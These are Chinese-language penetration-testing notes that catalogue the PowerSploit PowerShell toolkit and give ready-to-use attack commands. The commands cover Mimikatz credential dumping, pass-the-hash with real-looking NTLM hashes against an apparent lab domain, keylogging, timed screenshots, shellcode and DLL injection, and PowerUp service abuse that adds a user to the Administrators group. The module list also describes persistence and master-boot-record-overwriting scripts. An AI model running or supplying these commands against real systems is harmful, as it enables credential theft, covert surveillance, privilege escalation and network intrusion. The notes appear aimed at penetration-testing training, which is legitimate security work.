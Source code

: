 # PowerSploit

PowerSploit是Microsoft PowerShell模块的集合，可用于在评估的所有阶段帮助渗透测试人员。上面有很多powershell攻击脚本，它们主要被用来渗透中的信息侦察、权限提升、权限维持。

github:`https://github.com/PowerShellMafia/PowerSploit`

## powershell脚本分类以及功能

一、AntivirusBypass(绕过杀毒)

1. Find-AVSignature   发现杀软的签名

二、CodeExecution(代码执行)

1. Invoke-DllInjection.ps1  DLL注入脚本 注意dll架构要与目标进程相符，同时要具备相应的权限
2. Invoke-ReflectivePEInjection.ps1   反射型注入 将Windows PE文件（DLL / EXE）反射加载到powershell进程中，或反射地将DLL注入远程进程
3. Invoke-Shellcode.ps1   将shellcode插入您选择的进程ID或本地PowerShell中
4. Invoke-WmiCommand.ps1  在目标主机使用wmi执行命令

三、Exfiltration(信息收集)    #这个文件夹主要是收集目标主机上的信息

1. Out-Minidump.ps1              生成一个进程的全内存小数据库
2. Get-VaultCredential.ps1 显示Windows徽标凭据对象，包括明文Web凭据
3. Get-Keystrokes.ps1       记录按键，时间和活动窗口
4. Get-GPPPassword.ps1          检索通过组策略首选项推送的帐户的明文密码和其他信息
5. Get-GPPAutologon.ps1        如果通过组策略首选项推送，则从registry.xml检索自动登录用户名和密码
6. Get-TimedScreenshot.ps1    这是一个以定期间隔拍摄屏幕并将其保存到文件夹的功能
7. Invoke-Mimikatz.ps1            查看主机密码
8. Invoke-NinjaCopy.ps1          通过读取原始卷并解析NTFS结构，从NTFS分区卷复制文件
9. Invoke-CredentialInjection.ps1    使用明文凭据创建登录，而不会触发可疑事件ID 4648（显式凭证登录）
10. Invoke-TokenManipulation.ps1         列出可用的登录令牌。与其他用户创建进程登录令牌，并模仿当前线程中的登录令牌
11. Get-MicrophoneAudio.ps1        通过麦克风记录声音
12. VolumeShadowCopyTools.ps1

四、Recon(信息侦察)   # 这个文件夹主要是以目标主机为跳板进行内网主机侦察

1. Invoke-Portscan.ps1      端口扫描
2. Get-HttpStatus.ps1       返回指定路径的HTTP状态代码和完整URL，并附带字典文件
3. Invoke-ReverseDnsLookup.ps1  扫描DNS PTR记录的IP地址范围
4. PowerView.ps1            PowerView是一系列执行网络和Windows域枚举和利用的功能
5. Get-ComputerDetails      获得登录信息

五、ScriptModification(脚本修改)

1. Out-EncodedCommand.ps1    将脚本或代码块编码，并为PowerShell有效载荷脚本生成命令行输出
2. Out-EncryptedScript.ps1   加密文本文件/脚本
3. Out-CompressedDll.ps1   压缩，Base-64编码，并输出生成的代码，以将受管理的DLL加载到内存中
4. Remove-Comments.ps1       从脚本中删除注释和多余的空白

六、Persistence(权限维持)

1. New-UserPersistenceOption  为添加持久性函数配置用户级持久性选项。
2. New-ElevatedPersistenceOption   为添加持久性函数配置提升的持久性选项。
3. Add-Persistence    向脚本添加持久性功能
4. Install-SSP        安装安全支持提供程序（ssp）dll
5. Get-SecurityPackages

七、Privesc(提权)

1. PowerUP: 共同特权升级检查的信息交换所，以及一些武器化载体
2. Get-System

八、Mayhem(蓝屏破坏脚本)

1. Set-MasterBootRecord   选择的消息覆写主引导记录
2. Set-CriticalProcess  退出powershell时使系统蓝屏

## CodeExecution(代码执行)

### Invoke-Shellcode.ps1(执行shellcode)

```powershell
你要有一个Shellcode脚本
Invoke-Shellcode -Shellcode ($buf)
```

### Invoke-DllInjection.ps1(DLL注入脚本)

```powershell
你要有一个dll脚本
Invoke-DllInjection -ProcessID 3632 -Dll .\test.dll
```

## Recon(信息侦察)

### Invoke-Portscan.ps1(端口扫描)

```powershell
Invoke-Portscan -Hosts 192.168.102.1/24 -Ports "1-65535"
```

## Exfiltration(信息收集)

- Get-VaultCredential(抓取Windows vault 中保存的各种密码)

```powershell
Get-VaultCredential
```

### Get-TimedScreenshot.ps1(定期间隔拍摄屏幕)

```powershell
Get-TimedScreenshot -Path c:\temp\ -Interval 5 -EndTime 11:23  # 每5秒截一次图,到11:23时结束
```

### Invoke-Mimikatz.ps1(查看主机密码)

```powershell
Invoke-Mimikatz -DumpCreds
```

### Get-Keystrokes.ps1(记录按键)

```powershell
Get-Keystrokes -LogPath 1.txt # 并不好用，缺失
```

### Invoke-NinjaCopy.ps1(复制文件)

```powershell
Invoke-NinjaCopy -Path "文件在哪里" -LocalDestination "要到哪里去"
```

- Invoke-Mimikatz.ps1

```powershell
# 获取管理员的哈希
.\Invoke-MimikatzEx.ps1

# 以管理员身份运行域中的powershell(需要替换ntlm值)
Invoke-Mimikatz -Command '"sekurlsa::pth /user:srvadmin /domain:dollarcorp.moneycorp.local /ntlm:a98e18228819e8eec3dfa33cb68b0728 /run:powershell.exe"'

Invoke-Mimikatz -Command '"sekurlsa::pth /user:svcadmin /domain:dollarcorp.moneycorp.local /ntlm:b38ff50264b74508085d82c69794a4d8 /run:powershell.exe"'

Find-LocalAdminAccess   # 判断可以去连接的域机器

Enter-Pssession -Computername dcorp-dc  # 连接到dc
Get-AppLockerPolicy -Effective | select -ExpandProperty rulecollections # 获取主机文件权限
```

- Invoke-MimikatzEx.ps1

```pwoershell
./Invoke-MimikatzEx.ps1   # 直接获取哈希
```

## 提权

```powershell
– PowerUp
Invoke-AllChecks

– BeRoot is an executable:
.\beRoot.exe

– Privesc:
Invoke-PrivEsc
```

### PowerUP

- 服务枚举

```powershell
Get-ServiceUnquoted                 # 获取具有未引用路径且名称中有空格的服务
Get-ModifiableServiceFile           # 获取当前用户可以写入服务二进制路径或其配置的服务
Get-ModifiableService               # 获取当前用户可以修改的服务
Get-ServiceDetail 'AbyssWebServer'  # 获取指定服务(AbyssWebServer)的详细信息
```

- 服务滥用

```powershell
# 修改易受攻击的服务以创建本地管理员或执行自定义命令
Write-ServiceBinary      # 写出一个修补过的`c\#`服务二进制文件，添加一个本地管理员或者执行一个自定义命令
Install-ServiceBinary    # 将服务二进制文件替换为添加本地管理员或执行自定义命令的二进制文件
Restore-ServiceBinary    # 使用原始可执行文件还原被替换的服务二进制文件
```

- DLL劫持

```powershell
Find-ProcessDLLHijack   # 发现当前运行进程的潜在DLL劫持机会
Find-PathDLLHijack      # 发现服务器路径 DLL劫持机会
Write-HijackDll         # 写出一个可劫持的DLL

```

- 注册表检查

```powershell
Get-RegistryAlwaysInstallElevated   # 检查是否设置了“始终安装”提升的注册表项
Get-RegistryAutoLogon               # 检查注册中心中的自动登录凭据
Get-ModifiableRegistryAutoRun       # 检查HKLM自动运行程序中任何可修改的二进制文件/脚本(或它们的配置)
```

- 杂项检查

```powershell
Get-ModifiableScheduledTaskFile   # 找到具有可修改目标文件的任务
Get-UnattendedInstallFile         # 找到剩余的无人值守的安装文件
Get-Webconfig                     # 检查任何加密的web。配置字符串
Get-ApplicationHost               # 检查加密的应用程序池和虚拟目录密码
Get-SiteListPassword              # 检索找到的任何密码的明文McAfee's SiteList.xml 文件
Get-CachedGPPPassword             # 检查缓存的组策略首选项文件中的密码
```

- 其他辅助功能/元功能

```powershell
Get-ModifiablePath              # 标记输入字符串并返回其中当前用户可以修改的文件
Get-CurrentUserTokenGroupSid    # 返回当前用户所属的所有sid，无论是否禁用它们
Add-ServiceDacl                 # 向Get-Service返回的服务对象添加Dacl字段
Set-ServiceBinPath              # 通过Win32 API方法将服务的二进制路径设置为指定的值
Test-ServiceDaclPermission      # 针对给定的权限集测试一个或多个通过的服务或服务名称
Write-UserAddMSI                # 写出一个MSI安装程序，提示添加用户
Invoke-AllChecks                # 运行所有当前升级检查并返回报告
```

- 提权案例

```powershell
Get-Wmiobject -class win32_service | select pathname    # 获取文件的路径
Import-Module ./PowerUp.ps1
Get-ModifiableServiceFile -Verbose      # 获取可修改的服务
Get-ModifiableService       # 获取可修改的服务
Get-ServiceUnquoted     # 获取可以修改的服务
Invoke-ServiceAbuse -Name 'AbyssWebServer' -UserName 'dcorp\student41'  # 将用户注入到管理员组
# 使用cmd查看组的命令去查看是否加入到administrators组
net localgroup "Administrators"
```
